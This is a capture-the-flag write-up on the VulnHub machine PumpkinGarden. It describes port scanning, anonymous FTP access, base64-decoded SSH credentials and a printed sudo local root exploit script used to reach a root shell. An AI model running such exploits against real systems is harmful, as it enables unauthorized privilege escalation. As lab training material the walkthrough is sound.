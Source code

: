 ## Mission-Pumpkin v1.0: PumpkinGarden

The series took my eye on vulnhub, so I decided to [check them out.](https://www.vulnhub.com/?q=pumpkin) 

![Image](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-10.png)

### Finding out the IP-Adress

This time it was very easy - the vm itself showed it on the welcome screen.

The IP I had to deal with was 192.168.178.59

### Looking for open doors

I fired up Zenmap (yeah I know, but I really like the GUI) to take a closer look at open ports.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-19.png)

### FTP-Server

So there is nothing but a ftp-server. Let's check it out.

vsftp (very secure ftp) supports often an anonymous login. Thats what I tried first:

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-13.png)

Because I never worked with ftp like this before i messed up with the commands a little.
But in the end I got what I wanted.

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-12.png)

That note.txt said:
```markdown
Hello Dear! 
Looking for route map to PumpkinGarden? I think jack can help you find it.
````
Who the heck is Jack?
Maybe this is a username or something like that. I'll save that for later.

### Are there any other open ports?

Because I didn't know what to search for, I decided to fire up Zenmap again, but this time with a larger portrange.
Bingo!
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-14.png)

Now I got a fileserver, a webserver and ssh. Thats a step forward. 

### Webserver

Let's check out the webserver.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-15.png)

It says `the route map to PumpkinGarden is somewhere under the hood`. 

That made me take a closer look at the sourcecode.

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-16.png)

That went well. But what does it mean? This ist an absolute beginner vm, so I didn't expect it's talking about steganography.
I took a closer look at the image, but found nothing. Except the path where it is stored.
`192.168.178.59:1515/images`
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-18.png)

`hidden_secret` sounds good. After opening that directory, I found a textfile (clue.txt).

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-1.png)

That looks like a hash or some other type of decoded text. I ran it through hash-identifier, but there were no results.
Next possibility that came to my mind was base64.

`echo c2NhcmVjcm93IDogNVFuQCR5 | base64 -d`

Voilá `scarecrow : 5Qn@$y`

That looks like a set of credentials. 

### SSH

Maybe they work for SSH?

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-2.png)

Oh yes, they do. First big step is done, were inside of the vm.

After running the `ls -la` Command, I recognized a file called note.txt.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-3.png)

Goblin? What for a goblin? Is this another username for ssh?
A quick check of `/etc/passwd` revealed that I assumed this correctly.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-4.png)

Let's try if that awkward string is the password for goblin.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-5.png)

I'm running `ls -la` again and was presented with another note.txt.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-6.png)

### Privilege escalation

That sounds very good, but unfortunately it was a dead end because the site threw up a 404 Error.
Damn! After a couple of minutes spending on google I found out that this exploit was a bash script, which escalates our privileges to root.
Here's the script:
````
#!/bin/sh
# Tod Miller Sudo 1.6.x before 1.6.9p21 and 1.7.x before 1.7.2p4
# local root exploit
# March 2010
# automated by kingcope
# Full Credits to Slouching
echo Tod Miller Sudo local root exploit
echo by Slouching
echo automated by kingcope
if [ $# != 1 ]
then
echo "usage ./sudoxpl.sh <file you have permission to edit>"
exit
fi
# cd /tmp
cat > sudoedit << _EOF
#!/bin/sh
echo ALEX-ALEX
su
/bin/su
/usr/bin/su
_EOF
chmod a+x ./sudoedit $1
````
I went to `/tmp` to create the file and run it, but it didn't work.

Why? Maybe I should run this as scarecrow.

Nope, that won't work eiter. But what now?

I logged in again as goblin an run `ps -aux` which shows all current running processes.

There was a damn script running, which empties `/tmp` and `/home/goblin` every 15 seconds.

Ok, I had to create the script, change the permissions that I could execute it and run it within 15 secs.

I needed a few tries, but with the correct commands in my bash history I could accomplish that.

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-7.png)

# BAM there it is - the root shell!

Running `ls -la` again showed me that there is a PumpkinGarden_Key file.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-8.png)

This is a base64 string again. So i echoed it into the base64 decoder.

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-9.png)

That's it! I really had fun with that box! Can't wait to take a closer look at part II of the series.

Thank you for reading and happy pwning!

